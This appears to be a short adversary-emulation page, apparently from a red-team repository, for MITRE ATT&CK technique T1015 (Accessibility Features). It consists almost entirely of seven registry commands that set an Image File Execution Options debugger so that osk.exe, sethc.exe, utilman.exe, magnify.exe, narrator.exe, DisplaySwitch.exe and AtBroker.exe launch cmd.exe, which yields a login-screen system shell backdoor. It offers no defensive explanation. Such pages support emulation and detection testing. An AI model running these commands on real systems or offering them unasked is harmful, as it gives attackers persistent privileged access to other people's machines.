 # Accessibility Features

## MITRE ATT&CK Technique:
[T1015](https://attack.mitre.org/wiki/Technique/T1015)

## osk.exe swap

    reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "C:\windows\system32\cmd.exe" /f

## sethc.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

## utilman.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

## magnify.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\magnify.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

## narrator.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\narrator.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

## DisplaySwitch.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\DisplaySwitch.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f

## AtBroker.exe swap

    REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\AtBroker.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
